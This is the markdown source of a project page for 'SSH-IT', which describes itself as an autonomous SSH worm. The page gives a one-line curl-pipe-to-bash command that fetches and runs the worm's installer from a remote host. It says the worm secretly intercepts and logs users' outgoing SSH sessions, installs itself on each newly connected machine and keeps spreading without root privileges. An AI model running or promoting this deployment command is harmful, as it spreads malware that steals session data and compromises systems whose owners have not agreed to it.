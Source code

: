 ```yaml
---
layout: default
title: An autonomous SSH worm
---
```


<div style="text-align:center"><h1>{{ page.title }}</h1></div>

<div style="width:80%; margin:auto">
<script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

### Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
[Read more](deploy) and learn some [tricks](deploy).

### What it does

SSH-IT intercepts outgoing SSH connections every time a user uses ```ssh```. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

### How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need ```ptrace()```. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) for more information.

### Contact

{% include contact-details.md %}
